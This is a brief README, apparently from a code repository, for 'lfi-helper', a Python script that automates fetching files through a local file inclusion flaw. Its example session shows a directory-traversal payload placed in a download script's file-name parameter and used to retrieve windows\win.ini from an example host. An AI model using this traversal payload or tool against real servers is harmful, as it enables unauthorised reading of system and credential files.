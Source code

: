 lfi-helper
==========

Quick and dirty python script to help automate pulling files through LFI

example usage
==========

Please enter the base url you want to start in: http://example.com/downloadfile.php?fn=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\
filepath~> windows\win.ini
Content Length: 92
Saved file to windows-win.ini
filepath~>
